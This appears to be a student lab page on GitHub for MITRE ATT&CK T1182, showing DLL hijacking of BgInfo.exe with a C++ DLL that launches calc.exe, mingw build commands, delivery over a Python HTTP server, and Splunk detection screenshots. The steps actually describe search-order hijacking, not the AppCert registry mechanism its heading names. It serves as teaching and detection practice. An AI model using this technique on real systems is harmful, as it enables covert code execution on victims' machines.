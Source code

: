 <h1>Technique Description</h1>
<h2>T1182 - AppCert DLL</h2>
<h2><a href="https://attack.mitre.org/techniques/T1182/">Description from ATT&CK</a></h2>
<blockquote>
 Dynamic-link libraries (DLLs) that are specified in the AppCertDLLs value in the Registry key HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\Session Manager are loaded into every process that calls the ubiquitously used application programming interface (API) functions:
   * CreateProcess
  * CreateProcessAsUser
  * CreateProcessWithLoginW
  * CreateProcessWithTokenW
  * WinExec
</blockquote>

<h1>Assumption</h1>
Assume that the victim device is already compromised, and able to download files from a web server.

<h1>Execution</h1>

![alt text](https://github.com/iamSoruban/group9_mitre_testcases/blob/iamSoruban-patch-1/Finding%20the%20missing%20DLL%20name.png)
*Figure 1: Looking for missing DLL*

After finding the missing file we will be creating a simple DLL file that will open calc.exe

__Steps to create the DLL file:__
1. Create a C++ file with the follwoing code:
```c++
#include <windows.h>
int fireLazor(){
    WinExec("calc", 0);
    return 0;
}
BOOL WINAPI DllMain(HINSTANCE hinstDLL,DWORD fdwReason, LPVOID lpvReserved){
    fireLazor();
    return 0;
}
```
2. Compiling it with mindw32 to make it as DLL file
```bash
i686-w64-mingw32-g++ -c -DBUILDING_EXAMPLE_DLL main.cpp
i686-w64-mingw32-g++ -shared -o main.dll main.o -Wl,--out-implib,main.a
```
![alt text](https://github.com/iamSoruban/group9_mitre_testcases/blob/iamSoruban-patch-1/Creating%20Malicious%20DLL.png)
*Figure 2: Creating Malicious DLL*

Using python simple HTTP server, sending the malicious code to the victim.
![alt text](https://github.com/iamSoruban/group9_mitre_testcases/blob/iamSoruban-patch-1/Using%20simple%20HTTP%20Server%20to%20send%20the%20DLL%20file.png)
*Figure 3: Using simple HTTP Server to send the DLL file*



Copy the malicious DLL fie to the same directory that the program expecting the file to be and rename the DLL file to the exact name that program looking for.
![alt text](https://github.com/iamSoruban/group9_mitre_testcases/blob/iamSoruban-patch-1/Placing%20the%20Injected%20DLL%20with%20the%20same%20name%20as%20misisng%20DLL%20in%20the%20same%20path.png)
*Figure 5: Placing the file*

Everything is set it up correctly, and now start the BgInfo.exe, it should load our DLL
![alt text](https://github.com/iamSoruban/group9_mitre_testcases/blob/iamSoruban-patch-1/Injected%20DLL%20execution.png)
*Figure 6: BgInfo.exe loaded new DLL*

<h1>Detection</h1>

To confirm this, we can use Splunk to analyze.
![alt text](https://github.com/iamSoruban/group9_mitre_testcases/blob/iamSoruban-patch-1/BGInfo-exe%20started%20with%20extra%20args.png)
*Figure 7: BgInfo.exe started with extra arguments/parameters*

![alt text](https://github.com/iamSoruban/group9_mitre_testcases/blob/iamSoruban-patch-1/Parent%20process%20Bginfo%20started%20calc-exe.png)
*Figure 8: Parent process Bginfo started calc.exe*
